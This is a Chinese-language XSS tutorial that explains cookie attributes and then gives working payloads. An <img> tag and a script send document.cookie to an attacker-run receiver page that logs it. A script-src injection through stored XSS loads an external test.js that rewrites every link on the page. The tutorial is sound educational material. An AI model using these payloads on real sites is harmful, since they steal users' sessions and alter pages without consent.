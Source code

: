 ### cookie介绍
cookie分为内存cookie和硬盘cookie，内存cookie储存在浏览器内存中，关闭浏览器则消失。cookie由变量名与值组成，其属性里有标准的cookie变量，也有用户自定义的属性。              
cookie格式：Set-Cookie:=[;=][;expiress=][;domain=][;path=][;secure][;httponly]         
cookie各个参数详细内容：                

Set-cookie:http响应头，向客户端发送cookie。         
Name=value:每个cookie必须包含的内容。           
Expires=date:EXpires确定了cookie的有效终止日期，可选。如果缺省，则cookie不保存在硬盘中，只保存在浏览器内存中。                  
Domain=domain-name:确定了哪些inernet域中的web服务器可读取浏览器储存的cookie，缺省为该web服务器域名。           
Path=path:定义了web服务器哪些路径下的页面可获取服务器发送的cookie。             
Secure:在cookie中标记该变量，表明只有为https通信协议时，浏览器才向服务器提交cookie。                            
Httponly:禁止javascript读取,如果cookie中的一个参数带有httponly，则这个参数将不能被javascript获取；httponly可以防止xss会话劫持攻击。                     
### 利用xss窃取cookie方法
本地写一个xss_cookie.php页面，用于接收cookie。            

在存在xss漏洞的地方，插入以下代码，便可以将cookie发送到xss_cookie.php，并且将cookie参数传递进去，写入文件中。                    

常用获取cookie的js代码(可自行扩展):   
```html
<img src="http://localhost/cspt/XSS_cookie.php?cookie='+document.cookie"></img>
<script>new Image().src="http://localhost/cspt/XSS/xss_cookie.php?cookie="+document.cookie;</script>
``` 
提交之后，本地cookie.txt文件中就会写入cookie值。                

## XSS蠕虫
主要出现在社交软件，依靠社交软件的传播性扩大范围。           
利用xss篡改网页         
前提：网站必须存在存储型xss漏洞，并且会将结果返回到页面上。             
这样我们就可以插入一段js代码，作用在于获取网站源码中的标签，然后修改其中的属性值，达到修改网页的效果。            
实例：修改网站所有连接地址            
本地编写一个test.js脚本，内容如下：           

将以下语句插入存在存储型xss漏洞的网站                 

<script type='text/javascript' src='http://localhost/cspt/XSS/test.js'></script>                    
可以发现存在该漏洞的网页上所有的链接都变成了www.google.com。                       

注：javascript加载外部的代码文件可以是任意扩展名（无扩展名也可以）               

## 利用xss获取用户信息
　　xss获取用户信息，运用最多的还是获取cookie信息，但除此之外，还可以获取用户浏览器版本、外网IP地址、浏览器安装的插件类型等等。以下列举了利用xss获取的客户端用户信息（包含但不仅限于以下几种）。          

alert(navigator.userAgent);读取userAgent内容          
alert(document.cookie);读取用户cookie内容                    
利用java环境，调用java Applet的接口获取客户端本地IP               
注：利用Xss漏洞能做的事有很多，前面已经列举了一些，这里便不对每一个都展开讲解，如需了解更多的xss漏洞内容，最好的方式还是看书。                       

## Xss漏洞探测
前面介绍了一些xss漏洞的基础内容，那么如何去检测一个网站（某个点）是否存在xss漏洞呢？
